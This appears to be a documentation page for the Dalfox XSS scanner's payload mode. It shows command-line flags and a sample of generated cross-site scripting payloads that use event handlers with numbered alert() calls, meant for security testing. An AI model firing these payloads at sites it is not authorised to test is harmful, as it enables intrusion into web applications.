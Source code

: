 ```yaml
---
title: Payload Mode
permalink: /docs/modes/payload-mode/
has_children: false
parent: Usage
nav_order: 5
toc: true
layout: page
---
```


`payload` mode is a mode for easy testing of XSS. Generate and Enumerate XSS Payloads and wordlists

```
dalfox payload {flags}
```

e.g
```
dalfox payload --enum-injs --entity-event-handler"
```

## Make-Bulk
Make-bulk generates many xss payloads. At this point, the parameters of the alert are configured as sequence and it is easy to find which payload was triggered during the XSS test.
```
dalfox payload --make-bulk
```
output
```
...snip...
<track onbeforepaste=\"alert(488)\" contenteditable>test<\/track>
<tt onbeforepaste=\"alert(489)\" contenteditable>test<\/tt>
<u onbeforepaste=\"alert(490)\" contenteditable>test<\/u>
<ul onbeforepaste=\"alert(491)\" contenteditable>test<\/ul>
<var onbeforepaste=\"alert(492)\" contenteditable>test<\/var>
<video onbeforepaste=\"alert(493)\" contenteditable>test<\/video>
<wbr onbeforepaste=\"alert(494)\" contenteditable>test<\/wbr>
<xmp onbeforepaste=\"alert(495)\" contenteditable>test<\/xmp>
<body onbeforeprint=alert(496)>
<svg><path><animateMotion onbegin=alert(497) dur=\"1s\" repeatCount=\"1\">
<svg><animatetransform onbegin=alert(498) attributeName=transform>
<svg><set onbegin=alert(499) attributename=x dur=1s>
<svg><animate onbegin=alert(500) attributeName=x dur=1s>
<input onblur=alert(501) id=x><input autofocus>
<textarea onblur=alert(502) id=x><\/textarea><input autofocus>
...snip...
```

## Encoder
```
--encoder-url            Encoding output [URL]
```

## Supported
```
--entity-event-handler   Enumerate a event handlers for xss
--entity-gf              Enumerate a gf-patterns xss params
--entity-special-chars   Enumerate a special chars for xss
--entity-useful-tags     Enumerate a useful tags for xss
--enum-attr              Enumerate a in-attr xss payloads
--enum-common            Enumerate a common xss payloads
--enum-html              Enumerate a in-html xss payloads
--enum-injs              Enumerate a in-js xss payloads
--make-bulk              Make bulk payloads for stored xss
--remote-payloadbox      Enumerate a payloadbox's xss payloads
--remote-portswigger     Enumerate a portswigger xss cheatsheet payloads
```

## Screenshots
![1414](https://user-images.githubusercontent.com/13212227/120361642-0b9e1000-c345-11eb-8283-9c0b7fdac8b3.jpg)

